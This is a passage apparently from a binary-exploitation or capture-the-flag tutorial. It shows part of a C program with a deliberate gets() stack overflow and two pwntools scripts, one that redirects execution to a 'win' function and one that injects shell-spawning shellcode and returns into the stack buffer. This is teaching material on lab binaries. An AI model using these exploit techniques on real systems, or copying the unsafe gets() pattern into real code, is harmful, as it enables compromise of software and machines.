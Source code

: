 ```c
    gets(buffer);
}

int main() {
    printf("ret2win challenge\n");
    vulnerable();
    return 0;
}
```

**Exploit:**
```python
#!/usr/bin/env python3
from pwn import *

context.binary = './ret2win'
elf = ELF('./ret2win')

def exploit():
    p = process('./ret2win')
    
    # Find win function address
    win_addr = elf.symbols['win']
    print(f"Win function at: {hex(win_addr)}")
    
    # Build payload
    offset = 72
    payload = b'A' * offset
    payload += p64(win_addr)
    
    # Send payload
    p.sendline(payload)
    p.interactive()

exploit()
```

### Return to Shellcode

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.binary = './vuln1'

def ret2shellcode():
    p = process('./vuln1')
    
    # Generate shellcode
    shellcode = asm(shellcraft.sh())
    
    # Find buffer address (requires leak or guessing)
    buffer_addr = 0x7fffffffe000  # Example address
    
    # Build payload
    offset = 72
    payload = shellcode
    payload += b'A' * (offset - len(shellcode))
    payload += p64(buffer_addr)  # Return to buffer
    
    p.sendline(payload)
    p.interactive()

```